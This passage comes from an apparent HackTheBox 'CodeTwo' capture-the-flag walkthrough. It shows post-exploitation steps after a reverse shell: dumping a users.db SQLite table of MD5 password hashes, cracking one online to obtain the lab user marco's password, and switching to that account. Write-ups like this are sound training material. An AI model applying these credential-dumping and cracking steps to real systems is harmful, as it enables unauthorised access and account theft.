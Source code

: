 ```bash
```

Got our reverse shell, let's double check again the `users.db` file.

### Database & Cracking

```bash
app@codetwo:~/app$ ls -la
total 32
drwxrwxr-x 6 app app 4096 Feb 23 05:18 .
drwxr-x--- 5 app app 4096 Apr  6 03:22 ..
-rw-r--r-- 1 app app 3675 Feb  1  2025 app.py
drwxrwxr-x 2 app app 4096 Aug 17 13:24 instance
drwxr-xr-x 2 app app 4096 Feb  1  2025 __pycache__
-rw-rw-r-- 1 app app   49 Jan 17  2025 requirements.txt
drwxr-xr-x 4 app app 4096 Jun 11 07:51 static
drwxr-xr-x 2 app app 4096 Jun 26 13:43 templates
app@codetwo:~/app$ cd instance
app@codetwo:~/app/instance$ ls -la
total 24
drwxrwxr-x 2 app app  4096 Aug 17 13:24 .
drwxrwxr-x 6 app app  4096 Feb 23 05:18 ..
-rw-r--r-- 1 app app 16384 Aug 17 13:24 users.db
```

```bash
app@codetwo:~/app/instance$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
code_snippet  user        
sqlite> SELECT * FROM user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|2fa0n|3bce3bd3f7aae8de66198193cd696a35
```

There are some hash, let's crack it. <br>
&rarr; We gonna use [CrackStation](https://crackstation.net/) to crack them.

![CodeTwo CrackStation](/assets/img/codetwo-htb-release-area-machine/codetwo-htb-release-area-machine_crackstation.png)

BOOM! We got password for `marco` user.
&rarr; `marco:sweetangelbabylove`.


We can either switch to `marco` in the `app` session or just ssh directly.

```bash
app@codetwo:~/app/instance$ su - marco
Password: 
marco@codetwo:~$ ls -la
total 44
drwxr-x--- 6 marco marco 4096 Aug 17 14:00 .
drwxr-xr-x 4 root  root  4096 Jan  2  2025 ..
drwx------ 7 root  root  4096 Apr  6 03:50 backups
lrwxrwxrwx 1 root  root     9 Oct 26  2024 .bash_history -> /dev/null
-rw-r--r-- 1 marco marco  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 marco marco 3771 Feb 25  2020 .bashrc
drwx------ 2 marco marco 4096 Apr  6 04:02 .cache
drwxrwxr-x 4 marco marco 4096 Feb  1  2025 .local
lrwxrwxrwx 1 root  root     9 Nov 17  2024 .mysql_history -> /dev/null
-rw-rw-r-- 1 root  root  2893 Jun 18 11:16 npbackup.conf
```